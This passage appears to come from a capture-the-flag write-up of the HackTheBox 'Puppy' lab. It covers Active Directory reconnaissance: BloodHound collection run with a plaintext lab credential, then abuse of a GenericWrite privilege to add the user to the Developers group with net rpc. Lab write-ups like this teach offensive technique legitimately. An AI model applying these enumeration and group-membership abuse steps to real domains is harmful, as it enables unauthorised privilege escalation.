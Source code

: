 I add this information to my `/etc/hosts` file.

```bash
# echo '10.10.11.70 puppy.htb DC.puppy.htb DC' >> /etc/hosts
```

### BloodHound

I harvest the domain's ACLs with `bloodhound-python` using the `levi.james` account.

```bash
# # bloodhound.py --zip -c All -u 'levi.james' -p 'KingofAkron2025!' -dc DC.puppy.htb -d puppy.htb -ns 10.129.232.75
```

`levi.james` is a member of the `HR` group which has the `GenericWright` privilege on the `Developers` group.

![](img/levi.james.png)

This privilege allows me to add `levi.james` to the `Developers` group.

```bash
# net rpc group addmem "developers" "levi.james" -U "PUPPY.HTB"/"levi.james" -S 10.129.232.75  Password for [PUPPY.HTB\levi.james]:
```
